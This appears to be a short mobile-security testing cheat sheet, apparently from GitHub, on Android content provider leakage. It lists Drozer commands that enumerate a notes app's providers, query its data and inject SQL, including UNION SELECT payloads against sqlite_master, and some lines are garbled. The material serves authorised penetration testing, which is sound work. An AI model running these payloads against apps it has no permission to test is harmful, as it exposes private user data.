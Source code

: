 # Improper Error Handling

Error handling is not properly done, and the API is throwing database/server errors specific to the crafted request, it is possible to craft attacks using those errors.

### Content Provider Leakage

According to Google Android Security application can't share data with another application until it's allow to share. If application assign content:// to any application that means it's provide content to particular application

#### Content provider leakage

By using Drozer to perform various attacks on content providers. We can find out the package name of our target application using the command shown as follows:

1. \#run app.package.list -f {appname}
2. \#run app.package.attacksurface com.sonyericsson.notes
3. \#run scanner.provider.finduris -a \[package name]

\#run scanner.provider.finduris -a com.sonyericsson.notes

1. \#run app.provider.query \[content provider URI]
2. \#run app.provider.query content://com.sonyericsson.notes.provider
3. \#run app.provider.query \[URI] --vertical (For Vertical view)

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --vertical

#### Attacking SQL Injection using Drozer

1. \#run scanner.provider.injection -a \[package name]
2. \#run scanner.provider.injection -a com.sonyericsson.notes
3. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "{sqlpayload}"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --sele,ction "\_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12, 13,14 from sqlite\_master where (1=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1=1)union select 1,2,3,4,sqlite\_ version(),6,7,8,9,10,1112,13,14 from sqlite\_master where (1=1"
